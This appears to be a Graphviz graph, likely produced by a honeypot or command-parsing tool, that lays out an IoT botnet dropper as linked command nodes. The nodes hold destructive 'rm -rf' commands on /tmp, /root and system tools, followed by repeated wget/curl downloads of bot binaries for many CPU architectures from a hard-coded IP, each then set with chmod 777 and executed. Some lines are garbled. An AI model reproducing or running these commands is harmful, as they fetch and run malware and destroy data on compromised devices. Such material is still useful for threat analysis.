 digraph {
0 [label="ulimit -n 712 "];
0 -> 0
2 [label="busybox rm -rf /tmp/* "];
2 -> 2
4 [label="busybox rm -rf /root/* "];
4 -> 4
6 [label="busybox rm -rf /usr/bin/strings "];
6 -> 6
8 [label="busybox rm -rf /usr/bin/ps "];
8 -> 8
154 [label="cd /tmp "];
154 -> 154
156 [label="cd /var/run "];
156 -> 158 [label="||,"];
158 [label="rm -rf * "];
158 -> 16 [label=";,"];
16 [label="wget http://212.237.24.47/Bots/snarm7 "];
16 -> 18 [label=";,"];
18 [label="busybox wget http://212.237.24.47/Bots/snarm7 "];
18 -> 20 [label="||,"];
20 [label="curl -O http://212.237.24.47/Bots/snarmv7 "];
20 -> 22 [label="||,"];
22 [label="busybox curl -O http://212.237.24.47/Bots/snarmv7 "];
22 -> 24 [label=";,"];
24 [label="chmod 777 snarm7 "];
24 -> 26 [label=";,"];
26 [label="./snarm7 "];
26 -> 154 [label=";,"];
154 [label="cd /tmp "];
154 -> 154
156 [label="cd /var/run "];
156 -> 158 [label="||,"];
158 [label="rm -rf * "];
158 -> 34 [label=";,"];
34 [label="wget http://212.237.24.47/Bots/snmipsel "];
34 -> 36 [label=";,"];
36 [label="busybox wget http://212.237.24.47/Bots/snmipsel "];
36 -> 38 [label="||,"];
38 [label="curl -O http://212.237.24.47/Bots/snmipsel "];
38 -> 40 [label="||,"];
40 [label="busybox curl -O http://212.237.24.47/Bots/snmipsel "];
40 -> 42 [label="||,"];
42 [label="chmod 777 snmipsel "];
42 -> 44 [label=";,"];
44 [label="./snmipsel "];
44 -> 154 [label=";,"];
154 [label="cd /tmp "];
154 -> 154
156 [label="cd /var/run "];
156 -> 158 [label="||,"];
158 [label="rm -rf * "];
158 -> 52 [label=";,"];
52 [label="wget http://212.237.24.47/Bots/snmips "];
52 -> 54 [label=";,"];
54 [label="busybox wget http://212.237.24.47/Bots/snmips "];
54 -> 56 [label="||,"];
56 [label="curl -O http://212.237.24.47/Bots/snmips "];
56 -> 58 [label="||,"];
58 [label="busybox curl -O http://212.237.24.47/Bots/snmips "];
58 -> 60 [label="||,"];
60 [label="chmod 777 snmips "];
60 -> 62 [label=";,"];
62 [label="./snmips "];
62 -> 154 [label=";,"];
154 [label="cd /tmp "];
154 -> 154
156 [label="cd /var/run "];
156 -> 158 [label="||,"];
158 [label="rm -rf * "];
158 -> 70 [label=";,"];
70 [label="wget http://212.237.24.47/Bots/snmips64 "];
70 -> 72 [label=";,"];
72 [label="busybox wget http://212.237.24.47p/Bots/snmips64 "];
72 -> 74 [label="||,"];
74 [label="curl -O http://212.237.24.47/Bots/snmips64 "];
74 -> 76 [label="||,"];
76 [label="busybox curl -O http://212.237.24.47/Bots/snmips64 "];
76 -> 78 [label="||,"];
78 [label="chmod 777 snmips64 "];
78 -> 80 [label=";,"];
80 [label="./snmips64 "];
80 -> 154 [label=";,"];
154 [label="cd /tmp "];
154 -> 154
156 [label="cd /var/run "];
156 -> 158 [label="||,"];
158 [label="rm -rf * "];
158 -> 88 [label=";,"];
88 [label="wget http://212.237.24.47/Bots/sni686 "];
88 -> 90 [label=";,"];
90 [label="busybox wget http://212.237.24.47/Bots/sni686 "];
90 -> 92 [label="||,"];
92 [label="curl -O http://212.237.24.47/Bots/sni686 "];
92 -> 94 [label="||,"];
94 [label="busybox curl -O http://212.237.24.47/Bots/sni686 "];
94 -> 96 [label="||,"];
96 [label="chmod 777 sni686 "];
96 -> 98 [label=";,"];
98 [label="./sni686 "];
98 -> 154 [label=";,"];
154 [label="cd /tmp "];
154 -> 154
156 [label="cd /var/run "];
156 -> 158 [label="||,"];
158 [label="rm -rf * "];
158 -> 106 [label=";,"];
106 [label="wget http://212.237.24.47/Bots/snsparc "];
106 -> 108 [label=";,"];
108 [label="busybox wget http://212.237.24.47/Bots/snsparc "];
108 -> 110 [label="||,"];
110 [label="curl -O http://212.237.24.47/Bots/snsparc "];
110 -> 112 [label="||,"];
112 [label="busybox curl -O http://212.237.24.47/Bots/snsparc "];
112 -> 114 [label="||,"];
114 [label="chmod 777 snsparc "];
114 -> 116 [label=";,"];
116 [label="./snsparc "];
116 -> 154 [label=";,"];
154 [label="cd /tmp "];
154 -> 154
156 [label="cd /var/run "];
156 -> 158 [label="||,"];
158 [label="rm -rf * "];
158 -> 124 [label=";,"];
124 [label="wget http://212.237.24.47/Bots/snsh4 "];
124 -> 126 [label=";,"];
126 [label="busybox wget http://212.237.24.47/Bots/snsh4 "];
126 -> 128 [label="||,"];
128 [label="curl -O http://212.237.24.47/Bots/snsh4 "];
128 -> 130 [label="||,"];
130 [label="busybox curl -O http://212.237.24.47/Bots/snsh4 "];
130 -> 132 [label="||,"];
132 [label="chmod 777 snsh4 "];
132 -> 134 [label=";,"];
134 [label="./snsh4 "];
134 -> 154 [label=";,"];
154 [label="cd /tmp "];
154 -> 154
156 [label="cd /var/run "];
156 -> 158 [label="||,"];
158 [label="rm -rf * "];
158 -> 142 [label=";,"];
142 [label="wget http://212.237.24.47/Bots/snx64 "];
142 -> 144 [label=";,"];
144 [label="busybox wget http://212.237.24.47/Bots/snx64 "];
144 -> 146 [label="||,"];
146 [label="curl -O http://212.237.24.47/Bots/snx64 "];
146 -> 148 [label="||,"];
148 [label="busybox curl -O http://212.237.24.47/Bots/snx64 "];
148 -> 150 [label="||,"];
150 [label="chmod 777 snx64 "];
150 -> 152 [label=";,"];
152 [label="./snx64 "];
152 -> 154 [label=";,"];
154 [label="cd /tmp "];
154 -> 154
156 [label="cd /var/run "];
156 -> 158 [label="||,"];
158 [label="rm -rf * "];
158 -> 160 [label=";,"];
160 [label="wget http://212.237.24.47/Bots/snppc "];
160 -> 162 [label=";,"];
162 [label="busybox http://212.237.24.47/Bots/snppc "];
162 -> 164 [label="||,"];
164 [label="curl -O http://212.237.24.47/Bots/snppc "];
164 -> 166 [label="||,"];
166 [label="busybox curl -O http://212.237.24.47/Bots/snppc "];
166 -> 168 [label="||,"];
168 [label="chmod 777 snppc "];
168 -> 170 [label=";,"];
170 [label="./snppc "];
170 -> 171 [label=";,"];
}
